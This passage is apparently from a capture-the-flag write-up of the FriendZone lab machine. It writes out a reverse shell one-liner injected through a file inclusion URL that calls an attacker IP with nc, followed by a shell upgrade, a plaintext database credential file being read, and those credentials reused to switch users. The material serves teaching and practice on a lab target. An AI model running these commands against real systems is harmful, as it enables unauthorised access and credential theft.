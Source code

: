 ### Shell

Of course I want a real shell. I’ll use my go to from the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and visit: `https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.7 443 >/tmp/f` (remembering to encode the `&` as `%26`):

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.123.
Ncat: Connection from 10.10.10.123:45840.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

After a shell upgrade (`python -c 'import pty;pty.spawn("bash")'`, `ctrl-z`, `stty raw -echo`, `fg`, `reset`, enter “screen” for terminal type if asked), I’ve got a full shell. And I can get user.txt:

```

www-data@FriendZone:/home/friend$ cat user.txt 
a9ed20ac...

```

## Priv: www-data to friend

In the `/var/www/` directory, there’s folders for all the different sites, as well as an sql conf file:

```

www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf

www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ

```

Those creds happen to work for friend. I can either `su friend`:

```

www-data@FriendZone:/var/www$ su friend
Password: 
friend@FriendZone:/var/www$ 

```
